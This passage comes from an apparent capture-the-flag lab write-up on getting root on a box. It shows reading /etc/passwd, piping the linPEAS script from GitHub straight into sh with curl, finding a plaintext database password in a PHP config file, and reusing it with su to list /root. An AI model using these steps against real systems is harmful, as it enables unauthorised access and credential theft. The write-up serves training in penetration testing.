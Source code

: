 ![](./assets/reverse-shell.png)

## Root Access

12) Some notes:

- We can't cd to `/root`
- Looking at `/etc/passwd`, there are three users with shells in the system `www-data` (the current user), `offsec`, and `root`

13) Tried `getcap -r / 2>/dev/null` and saw nothing interesting, so time for linPEAS...

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Interesting Results:

```
--------- Searching passwords in config PHP files
/var/www/html/sites/default/config.php:  'password' => 'FatPanda123', 
```

13) Let's try our new password against root

```
$ su root
Password: FatPanda123
whoami
root
cd /root
ls -la
total 44
drwx------  6 root root 4096 Feb 26 01:44 .
drwxr-xr-x 19 root root 4096 Jun 15  2022 ..
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Jun 16  2022 .cache
-rw-r--r--  1 root root    7 Jun 14  2023 email2.txt
drwxr-xr-x  3 root root 4096 Jun 16  2022 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-rw-rw-  1 root root   33 Feb 26 01:44 proof.txt
drwx------  3 root root 4096 Jun 15  2022 snap
drwx------  2 root root 4096 Jun 15  2022 .ssh
-rw-------  1 root root 1191 Jun 13  2023 .viminfo
```